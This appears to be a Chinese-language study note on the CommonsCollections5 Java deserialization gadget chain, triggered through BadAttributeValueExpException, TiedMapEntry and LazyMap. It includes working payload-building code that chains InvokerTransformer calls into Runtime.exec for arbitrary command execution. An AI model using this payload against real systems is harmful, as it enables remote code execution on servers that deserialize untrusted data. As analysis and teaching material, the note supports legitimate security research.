

# CommonsCollections5

## 0x01 BadAttributeValueExpException

CC5 与 CC6 时的分析一样，都是通过 `TiedMapEntry` 来触发  `LazyMap`，CC6 构造时选选了 `hashCode()` ，实际上在 `TiedMapEntry` 类中还有 `equals()`、 `toString()` 方法都调用了 `getValue()`，CC5 使用的是 `toString()`。


CC5 引出了一个新的 kick-off `javax.management.BadAttributeValueExpException`， 当满足下面两个条件之一时将调用 `toString()`

1. valObj 非 String
2. System.getSecurityManager() == null



那么调用链就很好写了，反射修改 `BadAttributeValueExpException` 的 `val` 值就行

```java
    public BadAttributeValueExpException getObject(final String command) throws Exception {
      final String[] execArgs = new String[] { command };
      // inert chain for setup
      final Transformer transformerChain = new ChainedTransformer(
              new Transformer[]{ new ConstantTransformer(1) });
      // real chain for after setup
      final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
               String.class, Class[].class }, new Object[] {
               "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
               Object.class, Object[].class }, new Object[] {
               null, new Object[0] }),
            new InvokerTransformer("exec",
               new Class[] { String.class }, execArgs),
            new ConstantTransformer(1) };

      final Map innerMap = new HashMap();

      final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

      TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

      BadAttributeValueExpException val = new BadAttributeValueExpException(null);
      Reflections.setFieldValue(val, "val", entry);
//    Field valfield = val.getClass().getDeclaredField("val");
//        Reflections.setAccessible(valfield);
//    valfield.set(val, entry);

      Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

      return val;
   }
```


## 0x02 Gadget Chain

```
BadAttributeValueExpException.readObject()
    TiedMapEntry.toString()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                InvokerTransformer.transform()
```


